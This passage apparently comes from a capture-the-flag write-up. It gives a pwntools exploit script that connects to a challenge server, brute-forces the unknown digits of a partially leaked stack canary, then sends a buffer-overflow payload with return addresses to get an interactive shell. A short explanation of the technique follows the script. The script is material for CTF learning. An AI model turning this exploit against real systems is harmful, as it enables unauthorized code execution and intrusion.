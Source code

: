 #### Exploit Code:
```
from pwn import *

chars = '0123456789ABCDEF'

context.binary = binary = ELF("./challenge")

#p = process()
ip = input("IP >> ")
port = input("PORT >> ")
p = remote(ip,port)
ask_quest = p.recvline()
print(ask_quest)
reply = b'y'
p.sendline(reply)

p.recvline()

canary_line = p.recvline()[:-1].decode()
print(canary_line)
leaked_canary = canary_line.split(": ")[1]
print(f'leaked canary is {leaked_canary}')
num=0
good = 0
original_canary = None
for i in chars:
        for j in chars:
                for k in chars:
                        input_ = p.recvline()
                        print(input_)
                        if b'Awesome' in input_:
                                original_canary = payload.decode()
                                good = 1
                                break
                        num += 1
                        payload = leaked_canary.encode() + i.encode() + j.encode() + k.encode()
                        print(payload)
                        p.sendline(payload)
                        reply = p.recvline()
                        print(reply)
                if good:
                        break
        if good:
                break
print(f'original Canary = {original_canary}')
print(p.recv())
p.sendline(b'A'*88 + p64(0x0000000000401016) + p64(0x4011b6))
p.interactive()
```
In this script Bruteforced all possible combinations to find out the correct canary value that matches with the leaked one. Once the correct canary value is obtained I just filled all the buffer values with 'A's until the return address via payload. On receiving the payload, the vulnerable program overflows the buffer rewarding the shell.
